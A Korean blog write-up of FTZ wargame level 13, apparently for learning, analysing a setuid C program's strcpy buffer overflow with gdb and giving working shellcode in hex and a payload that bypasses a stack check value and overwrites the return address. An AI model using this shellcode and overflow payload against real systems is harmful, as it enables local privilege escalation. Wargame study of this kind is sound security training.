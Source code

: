 ```yaml
---
title: BOF/ ftz-level13
tags: ftz
---
```


13번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  
gdb - 디버깅 도구  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 13
**ID : level13**  
**PASSWD : have no clue**         

<br />
{% highlight C linenos %}  
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
buf에 argv[1]을 strcpy함수로 복사하는 소스로 i가 0x1234567이 아니면 프로그램이 종료된다.    
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 입력 데이터가 1024Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
level14의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level13에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level13/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 sep에 1048Byte의 공간을 할당하는것을 알 수 있다.  
main+54 line을 보면 strcpy함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-1048.  
main+69 line을 보면 ebp-12 를 0x1234567과 비교연산하고 있음을 알 수 있다.  
소스를 보면 i가 0x1234567과 비교연산 하고 있으므로 ebp-12는 i의 주소이다.  
<br />
ebp는 stack base pointer로 stack의 최하단을 가리키는 포인터로 스택이 소멸되기 전까지 값이 변하지 않는다.  
스택은 높은 주소에서 낮은 주소로 자라는 특성을 가지고 있으므로 ebp-1048이 ebp-12보다 상단에 위치함을 알 수 있다.  

buf와 i사이에 12Byte의 dummy가 있고, 스택에 할당된 총 공간이 1048Byte이므로 메모리 구조는 아래와 같다.  

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(1024Byte)|
dummy(12Byte)|
i(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level13/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 시도.  
또한 중간에 i의 값을 적절히 변조하여 프로그램 종료 조건을 우회  

<br />
![그림3](/assets/ftz/level13/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level13/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level13/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  
하지만 i의 값이 0x1234567이 아니면 프로그램이 종료되는 조건이 있으므로 우회하기 위해 i의 위치에 1234567을 값으로 대입하고,  
ret에 접근하여 쉘코드의 주소를 대입한다.  

<br />

#### 페이로드
./attackme \`python -c "print 'A'\*1036 + '\x67\x45\x23\x01' + 'A'*12 + '\x15\xfc\xff\xbf'"`
